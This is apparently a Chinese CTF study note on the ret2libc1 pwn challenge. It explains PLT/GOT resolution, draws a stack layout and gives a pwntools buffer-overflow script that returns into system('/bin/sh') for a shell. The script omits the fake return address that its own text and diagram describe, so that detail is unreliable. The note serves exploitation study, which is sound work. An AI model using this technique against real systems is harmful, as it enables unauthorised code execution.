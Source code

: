 - 如果 GOT 中的条目已经被动态链接器填充，`off_804A018` 会直接指向 `system` 函数的真实地址，成功执行函数。
- 如果 GOT 中的条目还未被填充，`off_804A018` 会指向 PLT 中的解析逻辑(从`08048466`开始继续执行)

3. 跳转执行PLT0

```assembly
.plt:08048420 FF 35 04 A0 04 08      push    ds:dword_804A004 ; 压入 GOT[1]
.plt:08048426 FF 25 08 A0 04 08      jmp     ds:dword_804A008 ; 跳转到动态链接器
```

4. 动态链接器解析 `system` 的地址：
   - 动态链接器根据重定位索引（`18h`）和 GOT[1] 的值，找到 `system` 函数的真实地址。
   - 动态链接器将 `system` 的地址写入 GOT 中的条目（`off_804A018`）。

5. 跳转到 `system` 的真实地址，并且后续程序再次跳转到 `system@plt` 时，`jmp ds:off_804A018` 会直接跳转到 `system` 函数的真实地址。



这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以 `'bbbb'` 作为虚假的地址，其后参数对应的参数内容。

```
|-------------------|
|    /bin/sh 地址   |  <- system 的参数 (arg1)
|-------------------|
|    虚假返回地址   |  <- system 的返回地址 (可以是任意值，如 'bbbb')
|-------------------|
|    system 地址    |  <- 覆盖的返回地址，跳转到 system 函数
|-------------------|
|    垃圾数据       |  <- 填充缓冲区，覆盖栈空间
|-------------------|
```



```python
from pwn import *
p=process("./ret2libc1")
system_plt=0x08048460
#填system函数在PLT中的地址，因为PLT表编译时就已经确定，并且在程序运行时不会改变，
#若GOT表未初始化，PLT会自动调用动态链接器找到函数真实地址，
#填入GOT表并调用函数
binsh=0x08048720

payload=flat([b'a'*112,system_plt,binsh])
p.sendline(payload)
p.interactive()
```



![image-20250214223304558](./ctf-wiki-pwn-learning.assets/image-20250214223304558.png)
